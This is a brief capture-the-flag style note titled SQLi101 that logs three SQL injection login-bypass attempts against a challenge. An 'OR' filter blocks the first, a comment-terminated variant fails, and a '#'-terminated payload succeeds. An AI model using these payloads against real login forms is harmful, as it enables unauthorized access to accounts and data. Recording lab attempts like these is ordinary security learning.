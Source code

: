 # SQLi101

### try : admin'or '1' = '1

I cannot use 'or' in SQL statements. (Fail! Don't user 'OR'! No Hack!!)

### try : admin' or '1'='1 --

SQL injection does not work for this comment.

### try : admin' or '1'='1 \#

Success
